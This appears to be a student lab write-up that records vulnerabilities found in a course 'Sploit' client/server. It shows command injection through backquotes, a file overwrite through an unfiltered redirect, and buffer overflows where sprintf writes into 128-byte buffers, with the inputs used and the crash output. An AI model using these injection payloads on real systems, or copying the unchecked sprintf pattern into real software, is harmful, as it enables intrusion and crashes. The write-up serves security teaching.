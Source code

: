 ## Team 4

### Command Injection

* Using echo command. Only | and ; are filtered to check for multiple commands. We can use backquotes.
```
echo `uname -a`
Linux mc02.cs.purdue.edu 4.4.0-62-generic #83-Ubuntu SMP Wed Jan 18 14:10:15 
UTC 2017 x86_64 x86_64 x86_64 GNU/Linux

```

* Using ping command. The redirect operators are not filtered. We can use this to overwrite writable files.

```
ping google.com>vulnerable_file
ls
total 10480
-rwxr-x--- 1 njaganna njaganna 5309312 Mar 25 08:59 client
drwxrwxr-x 2 njaganna njaganna    4096 Mar 14 19:49 include
-rw-rw-r-- 1 njaganna njaganna    2440 Mar 14 19:49 Makefile
drwxr-x--- 6 njaganna njaganna    4096 Mar 25 08:59 obj
-rwxr-x--- 1 njaganna njaganna 5391136 Mar 25 08:59 server
-rw-r----- 1 njaganna njaganna     385 Mar 25 08:58 sploit.conf
drwxrwxr-x 6 njaganna njaganna    4096 Mar 14 19:49 src
-rw-r----- 1 njaganna njaganna     286 Mar 25 09:49 vulnerable_file
```

### Buffer Overflow

* The ping command is constructed using a buffer of size 128. We can overflow this by giving a hostname which exceeds the size.

>Input: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA

```C
char pingcmd[128];
sprintf(pingcmd, "ping %s", host.c_str());

Client:
ping first
ping AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAA 

Server:
ping: unknown host first
Segmentation fault (core dumped)
mc02 60 $ 
```

* Any misc command is constructed by using a buffer of size 128. First it changes directory and then executes command. So if we give a long parameter for the alias command, the server crashes as we overflow the return address.
>Input: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
```C
char c_cmd[128];
sprintf(c_cmd, "cd %s && %s",
        getSession().getCurrentDir().c_str(),
        _cmd.c_str());

Client:
echo AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAA

Server: 
mc02 60 $ ./server
Sploit Server Starting...
Segmentation fault (core dumped)
mc02 61 $
```
